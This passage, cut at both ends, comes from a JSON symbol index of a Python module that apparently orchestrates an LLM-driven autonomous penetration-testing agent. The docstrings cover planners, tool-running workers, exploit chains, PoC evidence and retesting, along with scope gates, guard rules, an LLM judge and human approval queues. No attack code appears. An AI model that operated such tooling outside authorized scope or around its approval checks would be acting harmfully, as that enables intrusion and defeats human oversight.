value into a dedupe key fragment.", "kind": "function", "line": 684, "name": "_slug", "signature": "def _slug(value)"}, {"doc": "Group exchanges by URL-template like the traffic proxy index.", "kind": "function", "line": 689, "name": "_traffic_template", "signature": "def _traffic_template(command)"}, {"doc": "Return True when an LLM reply is a backend error banner, not content.", "kind": "function", "line": 699, "name": "_llm_error_reply", "signature": "def _llm_error_reply(text)"}, {"doc": "Return True when a reply states explicit quota/credit exhaustion.\n\nOnly explicit billing/quota wording rotates the task chain; generic\nrate limits and transient errors stay with the health registry.", "kind": "function", "line": 707, "name": "_llm_quota_reply", "signature": "def _llm_quota_reply(text)"}, {"doc": "Return the per-task LLM chain members (empty when unbound).", "kind": "function", "line": 728, "name": "task_llm_chain", "signature": "def task_llm_chain(store, task_id)"}, {"doc": "Parse strict judge JSON demanding decision and comment.\n\nArgs:\n    raw: Raw model output, optionally wrapped in a markdown fence.\n\nReturns:\n    Dict with decision and comment, empty on any parse failure.", "kind": "function", "line": 738, "name": "parse_judge_output", "signature": "def parse_judge_output(raw)"}, {"doc": "Ask the pool for a guard verdict, applying the configured fail policy.\n\nArgs:\n    command: Tool arguments under review.\n    background: Optional operator message truncated to the limit.\n    fail_action: ``allow`` or ``deny`` applied when the judge is unusable.\n\nReturns:\n    Verdict dict with decision, comment and source; never raises.", "kind": "function", "line": 766, "name": "judge_command", "signature": "def judge_command(command, background, fail_action)"}, {"doc": "Single node of the per-task exploration graph.", "kind": "class", "line": 808, "name": "ExplorationNode", "signature": "class ExplorationNode"}, {"doc": "Directed edge between exploration nodes.", "kind": "class", "line": 822, "name": "ExplorationEdge", "signature": "class ExplorationEdge"}, {"doc": "Single node of the global asset graph.", "kind": "class", "line": 831, "name": "AssetNode", "signature": "class AssetNode"}, {"doc": "Lifecycle record for one autonomous engagement.", "kind": "class", "line": 845, "name": "LazyTask", "signature": "class LazyTask"}, {"doc": "Global shared asset truth across tasks.", "kind": "class", "line": 856, "name": "AssetGraph", "signature": "class AssetGraph"}, {"doc": "Per-task exploration graph with anchors into the asset graph.", "kind": "class", "line": 1019, "name": "ExplorationGraph", "signature": "class ExplorationGraph"}, {"doc": "Pending-intent queue; workers claim exactly one intent each.", "kind": "class", "line": 1294, "name": "Frontier", "signature": "class Frontier"}, {"doc": "Per-step worker/planner trace, backing trace exchange.", "kind": "class", "line": 1322, "name": "ActivityLog", "signature": "class ActivityLog"}, {"doc": "Append-only record of every tool execution like the Lazy MITM proxy.", "kind": "class", "line": 1455, "name": "TrafficLog", "signature": "class TrafficLog"}, {"doc": "Safety boundary: audit log plus user-configured intercept rules.", "kind": "class", "line": 1713, "name": "Guard", "signature": "class Guard"}, {"doc": "Extract the host part of a url/service/endpoint asset value.", "kind": "function", "line": 1921, "name": "_scope_host", "signature": "def _scope_host(value)"}, {"doc": "Return True when a scope rule owns an asset by ownership, not substring.\n\nA root domain owns itself, its subdomains and any url/service whose\nhost matches; a CIDR owns the ips inside it (bare or URL-embedded);\nan ip owns itself plus any URL on it regardless of port; a url owns\nitself and its prefixes. Other kinds keep substring matching.", "kind": "function", "line": 1931, "name": "_scope_covers", "signature": "def _scope_covers(scope_kind, scope_value, asset)"}, {"doc": "Wrap a bare target string as a minimal asset view for scope checks.", "kind": "function", "line": 1981, "name": "_target_as_asset", "signature": "def _target_as_asset(value)"}, {"doc": "Split a target into domain/ip/url candidate lists for gate matching.", "kind": "function", "line": 1998, "name": "_asset_candidates", "signature": "def _asset_candidates(target)"}, {"doc": "Return True when one enabled gate rule hits the target asset.", "kind": "function", "line": 2019, "name": "_match_gate_rule", "signature": "def _match_gate_rule(rule, target)"}, {"doc": "Target-asset gate: global blocklist + per-task block/allow lists.\n\nEnforcement order: global block hit denies; task block hit denies;\nnon-empty task allow-list without hit denies (closed whitelist);\notherwise allows. Checked on asset insert, intent inject and every\nworker target before tools run.", "kind": "class", "line": 2054, "name": "AssetGate", "signature": "class AssetGate"}, {"doc": "Three-level budget: rounds, toolcalls, findings, task deadline.", "kind": "class", "line": 2148, "name": "Budget", "signature": "class Budget"}, {"doc": "Observable runtime: abort cause, workers, heartbeat, watermarks.", "kind": "class", "line": 2232, "name": "RuntimeTracker", "signature": "class RuntimeTracker"}, {"doc": "Pending ask-queue with decide + timeout, priority ordered.", "kind": "class", "line": 2300, "name": "InterceptQueue", "signature": "class InterceptQueue"}, {"doc": "Per-task shared planner scratchpad for serial exploit chains.", "kind": "class", "line": 2460, "name": "TodoStore", "signature": "class TodoStore"}, {"doc": "Registry of tasks, goals, constraints, hints, scope, findings.", "kind": "class", "line": 2502, "name": "TaskStore", "signature": "class TaskStore"}, {"doc": "Lift explicit asset scope from goal like the planner goalsScopeTail.\n\nMinimal-range principle: only what the operator literally named.\nBare IP/CIDR wins over domains; full hostname wins over root domain.", "kind": "function", "line": 2775, "name": "extract_scope_items", "signature": "def extract_scope_items(goal_text, description)"}, {"doc": "Lift explicit allow/deny operation bounds like the planner goals decomposer.", "kind": "function", "line": 2807, "name": "extract_constraint_items", "signature": "def extract_constraint_items(goal_text, description)"}, {"doc": "Return host exposure scores from sessions/intel_summary.json.\n\nWritten by the intel fusion view on every graph fetch; empty when\nthe operator never opened IntelGraph. Never raises.", "kind": "function", "line": 2835, "name": "load_intel_scores", "signature": "def load_intel_scores()"}, {"doc": "Resolve concrete target for worker commands from scope, assets, goal.", "kind": "function", "line": 2850, "name": "resolve_target", "signature": "def resolve_target(task_id, store, graph)"}, {"doc": "Split goal text into verifiable objectives like the planner DecomposeGoals.", "kind": "function", "line": 2873, "name": "decompose_goals", "signature": "def decompose_goals(goal_text, description)"}, {"doc": "Synchronously enrich one asset with DNS and HTTP like the planner enrich.", "kind": "function", "line": 2910, "name": "enrich_asset", "signature": "def enrich_asset(value)"}, {"doc": "Sole intent generator, woken on every graph change like the planner planner.", "kind": "class", "line": 2933, "name": "Planner", "signature": "class Planner"}, {"doc": "Executes exactly ONE claimed intent with real tools.", "kind": "class", "line": 3373, "name": "Worker", "signature": "class Worker"}, {"doc": "Replay finding evidence to a verdict like the Lazy retester agent.", "kind": "class", "line": 5068, "name": "Retester", "signature": "class Retester"}, {"doc": "Fold stale exploration nodes into digests faithful to coldgraph.\n\nHot rule: ancestors of live intents stay hot, live intents stay hot,\ndirect children of live intents stay hot. Cold needs R consecutive\nplanner rounds plus connectivity grouping with same-parent rescue.", "kind": "class", "line": 5161, "name": "ColdCompactor", "signature": "class ColdCompactor"}, {"doc": "Render allow/deny bounds as highest-priority prompt block.\n\nFaithful to the reference constraint block: allow/deny grouped, out-of-scope\ntargets are recorded as facts and skipped, never probed. Scope filters\nwhich constraints inject (planner/worker); empty keeps all (both).", "kind": "function", "line": 5730, "name": "constraint_block", "signature": "def constraint_block(constraints, scope)"}, {"doc": "Build the wrap-up instruction used when a run budget ends.\n\nArgs:\n    agent: ``worker``, ``planner`` or ``main``.\n    reason: ``timeout`` or ``max_turns``.\n\nReturns:\n    Settlement instruction text for the trace and the final flush.", "kind": "function", "line": 5764, "name": "settlement_prompt", "signature": "def settlement_prompt(agent, reason)"}, {"doc": "Assemble a bounded prompt context for planner/worker LLM calls.\n\nOlder history folded into cold digests rides as digest lines instead\nof raw rows, so prompts stay small without losing prior work.\n\nArgs:\n    task_id: Task being planned/executed.\n    graph: Task exploration graph.\n    assets: Global asset graph.\n    store: Optional task store for scope/constraints.\n    budget: Max characters of assembled context.\n    top: Max recent facts and hub/island entries.\n\nReturns:\n    Context text capped at ``budget`` characters.", "kind": "function", "line": 5787, "name": "build_prompt_context", "signature": "def build_prompt_context(task_id, graph, assets, store, budget, top)"}, {"doc": "Strip operator-configured secrets from LLM-bound context.", "kind": "function", "line": 5858, "name": "_mask_prompt_context", "signature": "def _mask_prompt_context(text)"}, {"doc": "Rank finding severity like the report renderer (critical first).", "kind": "function", "line": 5868, "name": "finding_severity", "signature": "def finding_severity(text, evidence)"}, {"doc": "Finding lifecycle: report/status/bind like finding_workflow.", "kind": "class", "line": 5882, "name": "FindingService", "signature": "class FindingService"}, {"doc": "Durable PoC/evidence vault per task like evidence/store.", "kind": "class", "line": 6132, "name": "EvidenceStore", "signature": "class EvidenceStore"}, {"doc": "Finding event fan-out like notify/ (log + webhook, stateless).", "kind": "class", "line": 6235, "name": "Notifier", "signature": "class Notifier"}, {"doc": "Persistent event/interval triggers like server/scheduler (P3).", "kind": "class", "line": 6401, "name": "TriggerStore", "signature": "class TriggerStore"}, {"doc": "Optional LLM chain with failover + usage ledger like llmpool/llmrec.\n\nMembers resolve through modules.llm_factory when configured; with no\nmembers the planner/worker keep the heuristic path (never a hard error).\nFailures trip a shared health registry with tiered backoff so a dead\nhead member is skipped instead of retried every round.", "kind": "class", "line": 6550, "name": "LlmPool", "signature": "class LlmPool"}, {"doc": "Per-agent tool bindings like agent/toolcatalog (DB-overridable).", "kind": "class", "line": 6969, "name": "ToolCatalog", "signature": "class ToolCatalog"}, {"doc": "Bounded side-question Q&A over task context like sidequestion/.\n\nEvery exchange persists to ``sidequestions_<task>.json`` under its\nsession (default ``btw``) so side threads survive restarts and stay\nout of the mainline transcript.", "kind": "class", "line": 7013, "name": "SideQuestions", "signature": "class SideQuestions"}, {"doc": "Company asset-range registry like db/companies + company_scope.", "kind": "class", "line": 7087, "name": "CompanyScope", "signature": "class CompanyScope"}, {"doc": "Task snapshot vault like task_archives: save/list/restore/stats.", "kind": "class", "line": 7117, "name": "TaskArchive", "signature": "class TaskArchive"}, {"doc": "Named goal templates like task_templates: list/add/use/remove.", "kind": "class", "line": 7236, "name": "TaskTemplate", "signature": "class TaskTemplate"}, {"doc": "Per-task labels like task_categories: set/list.", "kind": "class", "line": 7279, "name": "TaskCategory", "signature": "class TaskCategory"}, {"doc": "Persistent per-task conversation like conversation/: say/log/clear.\n\nTurns carry a session name (default ``main``) so one task holds many\nindependent dialogue sessions that never interleave.", "kind": "class", "line": 7306, "name": "TaskChat", "signature": "class TaskChat"}, {"doc": "Single event-driven orchestrator: planner, workers, guard, enrich, retest.\n\nOne human command (lazy_loop / auto_loop) invokes every operator-visible\nstep internally: scope, asset, enrich, planner, frontier claim, worker\ntools, traffic, finding, retest, compaction, trace, report.", "kind": "class", "line": 7411, "name": "LazyLoopEngine", "signature": "class LazyLoopEngine"}, {"kind": "function", "line": 332, "name": "_kill", "signature": "def _kill()"}, {"kind": "function", "line": 372, "name": "_mask_key", "signature": "def _mask_key(match)"}, {"doc": "Load persisted assets or start empty.", "kind": "method", "line": 859, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Persist current assets to disk.", "kind": "method", "line": 873, "name": "_persist", "signature": "def _persist(self)"}, {"doc": "Compute program-owned dedupe key for an asset.", "kind": "method", "line": 877, "name": "dedupe_key", "signature": "def dedupe_key(self, kind, value, parent_id)"}, {"doc": "Insert asset or return existing node with same dedupe key.\n\nWhen ``task_id`` is given, the per-task block/allow asset gate\napplies in addition to the global blocklist.", "kind": "method", "line": 881, "name": "insert", "signature": "def insert(self, kind, value, parent_id, meta, task_id)"}, {"doc": "Return asset by id or None.", "kind": "method", "line": 911, "name": "get", "signature": "def get(self, asset_id)"}, {"doc": "List assets optionally filtered by kind.", "kind": "method", "line": 915, "name": "list", "signature": "def list(self, kind)"}, {"doc": "Flag asset as tested by a worker intent.", "kind": "method", "line": 922, "name": "mark_tested", "signature": "def mark_tested(self, asset_id)"}, {"doc": "Compute tested/total coverage, optionally scoped.", "kind": "method", "line": 932, "name": "coverage", "signature": "def coverage(self, scope)"}, {"doc": "List assets owned by the task scope via ownership matching.\n\nA root domain in scope returns its subdomains, services and urls;\na CIDR returns its hosts; an ip returns itself and its urls. With\nno scope the global list returns (non-task contexts stay unfiltered).", "kind": "method", "line": 948, "name": "scoped", "signature": "def scoped(self, scope, kind)"}, {"doc": "Return oldest untested assets up to limit.", "kind": "method", "line": 961, "name": "untested", "signature": "def untested(self, limit)"}, {"doc": "Compute task-scoped coverage like the planner graph_overview.\n\nTested means anchored to a terminal intent of THIS task, not the\nglobal flag polluted by other tasks on the same target.", "kind": "method", "line": 966, "name": "coverage_for", "signature": "def coverage_for(self, graph, scope)"}, {"doc": "Return scope-filtered assets not yet covered by this task.\n\nLazy list_untested_assets is per-task: global tested flag from\nother tasks must not starve a new task on the same target.\nAn asset counts as covered only when this task already anchored\nit to a terminal intent.", "kind": "method", "line": 994, "name": "untested_for", "signature": "def untested_for(self, graph, scope, limit)"}, {"doc": "Load task graph or start empty.", "kind": "method", "line": 1022, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Persist task graph to disk.", "kind": "method", "line": 1044, "name": "_persist", "signature": "def _persist(self)"}, {"doc": "Append node and return it.", "kind": "method", "line": 1056, "name": "add_node", "signature": "def add_node(self, kind, text, state, priority, meta)"}, {"doc": "Return node by id or None.", "kind": "method", "line": 1079, "name": "get", "signature": "def get(self, node_id)"}, {"doc": "Transition node state and persist.", "kind": "method", "line": 1083, "name": "set_state", "signature": "def set_state(self, node_id, state)"}, {"doc": "Link two existing nodes.", "kind": "method", "line": 1094, "name": "add_edge", "signature": "def add_edge(self, src, dst, kind)"}, {"doc": "Anchor exploration node to a concrete asset.", "kind": "method", "line": 1107, "name": "anchor", "signature": "def anchor(self, node_id, asset_id)"}, {"doc": "Return asset ids anchored to node.", "kind": "method", "line": 1118, "name": "anchors_for", "signature": "def anchors_for(self, node_id)"}, {"doc": "Return exploration node ids anchored to asset.", "kind": "method", "line": 1122, "name": "anchored_nodes", "signature": "def anchored_nodes(self, asset_id)"}, {"doc": "List nodes optionally filtered by kind/state.", "kind": "method", "line": 1126, "name": "list", "signature": "def list(self, kind, state)"}, {"doc": "Return destination ids of outgoing edges.", "kind": "method", "line": 1135, "name": "children", "signature": "def children(self, node_id, kind)"}, {"doc": "Return source ids of incoming edges.", "kind": "method", "line": 1142, "name": "parents", "signature": "def parents(self, node_id, kind)"}, {"doc": "Return planner-facing state summary like graph overview.", "kind": "method", "line": 1149, "name": "overview", "signature": "def overview(self)"}, {"doc": "Reload graph from disk, discarding in-memory state.", "kind": "method", "line": 1172, "name": "reload", "signature": "def reload(self)"}, {"doc": "CAS claim: reload, verify still open, then mark running. Cross-process safe.", "kind": "method", "line": 1196, "name": "compare_and_claim", "signature": "def compare_and_claim(self, node_id)"}, {"doc": "Normalize finding text into dedupe signature.", "kind": "method", "line": 1224, "name": "finding_signature", "signature": "def finding_signature(self, text)"}, {"doc": "Return existing finding with same signature or None.", "kind": "method", "line": 1230, "name": "has_finding", "signature": "def has_finding(self, text)"}, {"doc": "Full node view: text, state, meta, edges, anchors, trace tail.", "kind": "method", "line": 1240, "name": "node_detail", "signature": "def node_detail(self, node_id)"}, {"doc": "Keyword-filtered facts like list_facts.\n\nHot facts are never truncated when ``hot_full`` is set: the full\nhot set returns regardless of ``limit`` (cold views stay capped).", "kind": "method", "line": 1256, "name": "list_facts", "signature": "def list_facts(self, query, limit, hot_full)"}, {"doc": "Worker fact write like recordFact: deduped, anchored, done.", "kind": "method", "line": 1272, "name": "record_fact", "signature": "def record_fact(self, text, evidence, confidence, intent_id, asset_ids)"}, {"doc": "Bind frontier to a task graph.", "kind": "method", "line": 1297, "name": "__init__", "signature": "def __init__(self, graph)"}, {"doc": "Return pending intents ordered by priority then id.", "kind": "method", "line": 1302, "name": "pending", "signature": "def pending(self)"}, {"doc": "Atomically claim highest-priority pending intent (cross-process CAS).", "kind": "method", "line": 1307, "name": "claim_next", "signature": "def claim_next(self)"}, {"doc": "Bind log to task.", "kind": "method", "line": 1325, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Append one activity record and return it.", "kind": "method", "line": 1330, "name": "emit", "signature": "def emit(self, worker, kind, text, intent_id, tool_use_id)"}, {"doc": "Return most recent records up to limit.", "kind": "method", "line": 1355, "name": "read", "signature": "def read(self, limit)"}, {"doc": "Return records for one intent.", "kind": "method", "line": 1369, "name": "for_intent", "signature": "def for_intent(self, intent_id)"}, {"doc": "Work-scoped trace view like get_worker_trace.\n\nSteps are 1-based positions in the intent's own stream. With\n``step_id`` set, returns that step's full record; otherwise the\nstep flow, optionally filtered inline by ``query``.\n\nArgs:\n    intent_id: Work (intent) to lock onto.\n    query: Inline keyword filter over step text.\n    step_id: 1-based step to fetch in full (0 means list).\n    limit: Max steps to list.\n\nReturns:\n    Dict with intent_id, steps/total or the single step.", "kind": "method", "line": 1373, "name": "trace", "signature": "def trace(self, intent_id, query, step_id, limit)"}, {"doc": "Global keyword search across every work in this task.\n\nUnlike :meth:`search`, hits keep their work attribution\n(intent + step) so a worker reuses observations another work\nsaw but never wrote into a fact.", "kind": "method", "line": 1411, "name": "search_all", "signature": "def search_all(self, query, limit)"}, {"doc": "Search worker traces by keyword, excluding one intent like the planner.", "kind": "method", "line": 1441, "name": "search", "signature": "def search(self, query, exclude_intent)"}, {"doc": "Bind log to task or global stream.", "kind": "method", "line": 1458, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Append one traffic record and return it.", "kind": "method", "line": 1463, "name": "record", "signature": "def record(self, kind, command, output, meta)"}, {"doc": "Return most recent traffic records.", "kind": "method", "line": 1485, "name": "read", "signature": "def read(self, limit)"}, {"doc": "Full-text search over command/output like traffic_search.", "kind": "method", "line": 1499, "name": "search", "signature": "def search(self, query, limit)"}, {"doc": "Port-aware host search: same-host/different-port rows never mix.\n\nWith ``port`` set, only ``host:port`` rows match. Without it, the\nhost matches as a token on any port, but ``10.0.0.1`` never hits\n``10.0.0.10`` and ``example.com`` never hits ``notexample.com``.", "kind": "method", "line": 1510, "name": "search_host", "signature": "def search_host(self, host, port, limit)"}, {"doc": "Fetch one exchange by digest like traffic_get.", "kind": "method", "line": 1538, "name": "get", "signature": "def get(self, digest)"}, {"doc": "Return stored request/response bodies for one proxy exchange.\n\nArgs:\n    digest: Traffic record digest.\n\nReturns:\n    Body document from the recorder (empty when not a proxy row).\n\nRaises:\n    KeyError: Unknown digest.", "kind": "method", "line": 1545, "name": "recorder_body", "signature": "def recorder_body(self, digest)"}, {"doc": "Read a proxy body in ranges like the blob API.\n\nArgs:\n    digest: Traffic record digest.\n    part: ``resp`` (default) or ``req``.\n    offset: Byte offset.\n    length: Max bytes per read.\n\nReturns:\n    Range dict with data/offset/length/total/eof.\n\nRaises:\n    KeyError: Unknown digest or no recorder body.", "kind": "method", "line": 1574, "name": "recorder_blob", "signature": "def recorder_blob(self, digest, part, offset, length)"}, {"doc": "Group exchanges by URL-template with counts like the proxy index.", "kind": "method", "line": 1605, "name": "templates", "signature": "def templates(self, limit)"}, {"doc": "Return exchanges matching one template substring.", "kind": "method", "line": 1614, "name": "by_template", "signature": "def by_template(self, template, limit)"}, {"doc": "Attach traffic digest to a finding like bind_finding_traffic.\n\nA finding holds many evidences, each with a role (baseline,\nproof, verification or supporting; legacy request/response\naccepted), an operator note and a stable position. Legacy\nplain-string refs read back as supporting.", "kind": "method", "line": 1619, "name": "bind", "signature": "def bind(self, finding_id, digest, graph, role, note)"}, {"doc": "Upgrade legacy string refs to role/note dicts, keeping order.", "kind": "method", "line": 1650, "name": "_normalize_refs", "signature": "def _normalize_refs(raw)"}, {"doc": "Return a finding's traffic evidences in display order.", "kind": "method", "line": 1667, "name": "evidence", "signature": "def evidence(self, finding_id, graph)"}, {"doc": "Sort a finding's evidences; unlisted ones keep their tail order.", "kind": "method", "line": 1676, "name": "reorder_evidence", "signature": "def reorder_evidence(self, finding_id, digests, graph)"}, {"doc": "Dump recent exchanges to a JSON file like traffic archive export.", "kind": "method", "line": 1690, "name": "export", "signature": "def export(self, path, limit)"}, {"doc": "Snapshot traffic stream into sessions/lazy/traffic_archive_*.", "kind": "method", "line": 1697, "name": "archive", "signature": "def archive(self, label)"}, {"doc": "Drop the traffic stream, returning the discarded record count.", "kind": "method", "line": 1703, "name": "clear", "signature": "def clear(self)"}, {"doc": "Load rules and audit trail.", "kind": "method", "line": 1716, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Persist rule set plus judge config (never drop either).", "kind": "method", "line": 1735, "name": "_persist", "signature": "def _persist(self)"}, {"doc": "Register an intercept rule; higher priority evaluates first.", "kind": "method", "line": 1742, "name": "add_rule", "signature": "def add_rule(self, pattern, action, reason, priority)"}, {"doc": "Delete rules matching pattern exactly.", "kind": "method", "line": 1753, "name": "remove_rule", "signature": "def remove_rule(self, pattern)"}, {"doc": "Enable/disable the LLM judge fallback for unmatched commands.\n\nArgs:\n    enabled: Whether the judge consults the pool on rule misses.\n    fail_action: ``allow`` or ``deny`` when the judge is unusable.\n\nReturns:\n    Persisted judge config.\n\nRaises:\n    ValueError: Unknown fail action.", "kind": "method", "line": 1762, "name": "set_judge", "signature": "def set_judge(self, enabled, fail_action)"}, {"doc": "Evaluate tool call and audit it, returning allow/ask/deny.\n\nEvery call mints a stable ``tool_use_id`` (``tu_<12hex>``) shared\nwith the intercept queue, traffic record and activity trace so an\napproval row jumps back to the exact execution.", "kind": "method", "line": 1784, "name": "check", "signature": "def check(self, tool, command, tool_use_id, source, intent_id)"}, {"doc": "Return recent audit entries with optional status/source/text filters.", "kind": "method", "line": 1836, "name": "audit", "signature": "def audit(self, limit, action, source, query)"}, {"doc": "Jump to the exact execution behind an approval row.\n\nReturns the audit entry plus linked intercept, traffic and\nactivity rows sharing the same ``tool_use_id`` (traffic falls\nback to command-digest matching for rows recorded before ids).", "kind": "method", "line": 1864, "name": "lookup", "signature": "def lookup(self, tool_use_id)"}, {"doc": "Attribution counters over the audit trail.", "kind": "method", "line": 1906, "name": "stats", "signature": "def stats(self)"}, {"doc": "Bind global list plus optional per-task lists.", "kind": "method", "line": 2063, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Return global block rules.", "kind": "method", "line": 2070, "name": "_load_global", "signature": "def _load_global(self)"}, {"doc": "Return per-task block/allow payload.", "kind": "method", "line": 2074, "name": "_load_task", "signature": "def _load_task(self)"}, {"doc": "Persist global block rules.", "kind": "method", "line": 2081, "name": "_save_global", "signature": "def _save_global(self, block)"}, {"doc": "Persist per-task block/allow rules.", "kind": "method", "line": 2085, "name": "_save_task", "signature": "def _save_task(self, payload)"}, {"doc": "Register a block (global or task) or allow (task only) rule.", "kind": "method", "line": 2090, "name": "add", "signature": "def add(self, kind, pattern, note, action)"}, {"doc": "Delete a rule by id; returns True when something was removed.", "kind": "method", "line": 2111, "name": "remove", "signature": "def remove(self, rule_id, action)"}, {"doc": "Return global block plus per-task block/allow rules.", "kind": "method", "line": 2129, "name": "list", "signature": "def list(self)"}, {"doc": "Gate one target: allowed flag plus human-readable reason.", "kind": "method", "line": 2133, "name": "evaluate", "signature": "def evaluate(self, target)"}, {"doc": "Bind budget counters to task store.", "kind": "method", "line": 2151, "name": "__init__", "signature": "def __init__(self, store)"}, {"doc": "Return effective limits for task.", "kind": "method", "line": 2155, "name": "limits", "signature": "def limits(self, task_id)"}, {"doc": "Persist budget limits for task.", "kind": "method", "line": 2166, "name": "set_limits", "signature": "def set_limits(self, task_id)"}, {"doc": "Return consumed toolcalls/findings/rounds.", "kind": "method", "line": 2179, "name": "usage", "signature": "def usage(self, task_id)"}, {"doc": "Count one executed tool call.", "kind": "method", "line": 2189, "name": "record_toolcall", "signature": "def record_toolcall(self, task_id, intent_id)"}, {"doc": "Count one orchestrator round.", "kind": "method", "line": 2201, "name": "record_round", "signature": "def record_round(self, task_id)"}, {"doc": "Return ok/exceeded decision with reason.", "kind": "method", "line": 2219, "name": "check", "signature": "def check(self, task_id)"}, {"doc": "Bind runtime to task store.", "kind": "method", "line": 2235, "name": "__init__", "signature": "def __init__(self, store)"}, {"doc": "Return live runtime snapshot.", "kind": "method", "line": 2239, "name": "heartbeat", "signature": "def heartbeat(self, task_id)"}, {"doc": "Stamp heartbeat.", "kind": "method", "line": 2257, "name": "beat", "signature": "def beat(self, task_id, workers)"}, {"doc": "Stamp abort cause like typed AbortCause.", "kind": "method", "line": 2272, "name": "abort", "signature": "def abort(self, task_id, cause, detail)"}, {"doc": "Advance scheduler watermark so restarts never re-fire.", "kind": "method", "line": 2288, "name": "note_trigger", "signature": "def note_trigger(self, task_id, trigger_id)"}, {"doc": "Process-wide decision event for one pending intercept row.\n\nApprovals may be decided from a different queue instance (the\noperator command or the monitor TUI) than the worker thread that\nwaits; keying by store path plus row id lets both sides meet on\nthe same event.", "kind": "method", "line": 2307, "name": "_event_for", "signature": "def _event_for(cls, path, item_id)"}, {"doc": "Forget a settled row's wake-up event.", "kind": "method", "line": 2324, "name": "_drop_event", "signature": "def _drop_event(cls, path, item_id)"}, {"doc": "Bind queue to task.", "kind": "method", "line": 2329, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Load queue payload.", "kind": "method", "line": 2335, "name": "_load", "signature": "def _load(self)"}, {"doc": "Persist queue payload.", "kind": "method", "line": 2339, "name": "_save", "signature": "def _save(self, payload)"}, {"doc": "Enqueue one ask decision and return pending entry.", "kind": "method", "line": 2343, "name": "request", "signature": "def request(self, tool, command, reason, tool_use_id)"}, {"doc": "Return pending entries ordered by id.", "kind": "method", "line": 2361, "name": "pending", "signature": "def pending(self)"}, {"doc": "Paginated intercept history; pending stays fully visible.\n\nPending requests are never hidden by history pagination: the\nresponse always carries the full pending list alongside the\nrequested history page (lazy 0.3.12 #133 parity). History rows\nfilter by decision state and keyword (lazy #139 parity).\n\nArgs:\n    page: 1-based history page number.\n    per_page: History rows per page (1..100).\n    states: Decision states to keep (empty means all).\n    query: Keyword over tool/command/reason/tool_use_id.\n\nReturns:\n    Dict with history items, total, page, per_page, has_more\n    plus the complete pending list and its count.", "kind": "method", "line": 2365, "name": "history", "signature": "def history(self, page, per_page, states, query)"}, {"doc": "Approve or deny one pending entry and wake its waiter.", "kind": "method", "line": 2417, "name": "decide", "signature": "def decide(self, item_id, verdict)"}, {"doc": "Block until decided or timeout; timeout denies safely.\n\nIn-process decisions wake the waiter immediately through the\nshared event registry; a 0.2 s file poll stays as the fallback\nfor decisions made by another process (monitor TUI, second\nshell), which cannot signal this process's events.", "kind": "method", "line": 2431, "name": "wait", "signature": "def wait(self, item_id, timeout_sec)"}, {"doc": "Load persisted todos.", "kind": "method", "line": 2463, "name": "__init__", "signature": "def __init__(self, task_id)"}, {"doc": "Persist todo list.", "kind": "method", "line": 2470, "name": "_persist", "signature": "def _persist(self)"}, {"doc": "Append a serial step and return it.", "kind": "method", "line": 2474, "name": "add", "signature": "def add(self, text)"}, {"doc": "Mark step done.", "kind": "method", "line": 2481, "name": "complete", "signature": "def complete(self, item_id)"}, {"doc": "Return first pending step.", "kind": "method", "line": 2490, "name": "next_pending", "signature": "def next_pending(self)"}, {"doc": "Return all steps.", "kind": "method", "line": 2497, "name": "as_list", "signature": "def as_list(self)"}, {"doc": "Load task registry.", "kind": "method", "line": 2505, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Persist registry.", "kind": "method", "line": 2510, "name": "_persist", "signature": "def _persist(self)"}, {"doc": "Create task record and return it.", "kind": "method", "line": 2514, "name": "create", "signature": "def create(self, goal, description)"}, {"doc": "Return raw task record or None.", "kind": "method", "line": 2525, "name": "get", "signature": "def get(self, task_id)"}, {"doc": "Return all task records.", "kind": "method", "line": 2529, "name": "list", "signature": "def list(self)"}, {"doc": "Update task status.", "kind": "method", "line": 2533, "name": "set_status", "signature": "def set_status(self, task_id, status)"}, {"doc": "Pause planner and workers like the planner Engine.Pause.", "kind": "method", "line": 2545, "name": "pause", "signature": "def pause(self, task_id)"}, {"doc": "Resume a paused task back to running like the planner resumeTask.", "kind": "method", "line": 2549, "name": "resume", "signature": "def resume(self, task_id)"}, {"doc": "Remove task record; per-task graph files are cleaned by caller.", "kind": "method", "line": 2558, "name": "delete", "signature": "def delete(self, task_id)"}, {"doc": "Return how many tasks are currently running.", "kind": "method", "line": 2567, "name": "active_count", "signature": "def active_count(self, exclude)"}, {"doc": "Return queued tasks in FIFO arrival order.", "kind": "method", "line": 2571, "name": "queue", "signature": "def queue(self)"}, {"doc": "Mark a task queued with its arrival stamp.", "kind": "method", "line": 2576, "name": "enqueue", "signature": "def enqueue(self, task_id)"}, {"doc": "Pop the oldest queued task and mark it running.", "kind": "method", "line": 2587, "name": "dequeue_next", "signature": "def dequeue_next(self)"}, {"doc": "Reload the registry so concurrent store instances stay coherent.", "kind": "method", "line": 2598, "name": "_refresh", "signature": "def _refresh(self)"}, {"doc": "Bind a per-task LLM chain with a failover cursor.\n\nArgs:\n    task_id: Task to bind.\n    members: Chain specs (name/model/priority dicts).\n    active: Starting member index.\n\nReturns:\n    Persisted chain state.\n\nRaises:\n    KeyError: Unknown task.", "kind": "method", "line": 2602, "name": "set_llm_chain", "signature": "def set_llm_chain(self, task_id, members, active)"}, {"doc": "Return the task LLM chain state (empty when unbound).", "kind": "method", "line": 2630, "name": "llm_state", "signature": "def llm_state(self, task_id)"}, {"doc": "Advance the per-task active member after quota exhaustion.\n\nArgs:\n    task_id: Task whose chain rotates.\n\nReturns:\n    Updated chain state (empty when unbound).", "kind": "method", "line": 2636, "name": "advance_llm", "signature": "def advance_llm(self, task_id)"}, {"doc": "Pin skills for prompt injection and optionally toggle auto-match.\n\nArgs:\n    task_id: Task to update.\n    names: Skill names pinned on the record.\n    auto: Optional new value for keyword auto-matching.\n\nReturns:\n    Dict with the pinned skills and auto flag.\n\nRaises:\n    KeyError: Unknown task.", "kind": "method", "line": 2660, "name": "set_skills", "signature": "def set_skills(self, task_id, names, auto)"}, {"doc": "Stamp absolute deadline like the planner deadline coordinator.", "kind": "method", "line": 2685, "name": "set_deadline", "signature": "def set_deadline(self, task_id, timeout_sec)"}, {"doc": "Report whether task deadline passed.", "kind": "method", "line": 2695, "name": "expired", "signature": "def expired(self, task_id)"}, {"doc": "Register allow/deny operation constraint 